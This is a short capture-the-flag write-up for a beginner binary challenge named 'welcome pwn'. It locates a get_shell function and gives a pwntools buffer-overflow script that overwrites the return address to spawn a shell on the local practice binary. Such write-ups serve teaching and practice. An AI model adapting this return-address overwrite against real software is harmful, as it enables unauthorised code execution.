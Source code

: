 # welcome pwn

## solution
first let's display every section of the binary
![](objdump.png)
we notice here the string **/bin/sh** at the offset **40200**
let's check that offset with IDA
![](ida.png)
Yup we can confirm the this function will exectue a shell for us 
it loads the address of /bin/sh then executes system 
we will write a script that will make us jump to the get_shell function
```python
from pwn import * 

io = process('./welcome')


get_shell = 0x0401187

payload = ""
payload += "A" * 152
payload += p64(get_shell)


io.sendline(payload)
io.interactive()
```
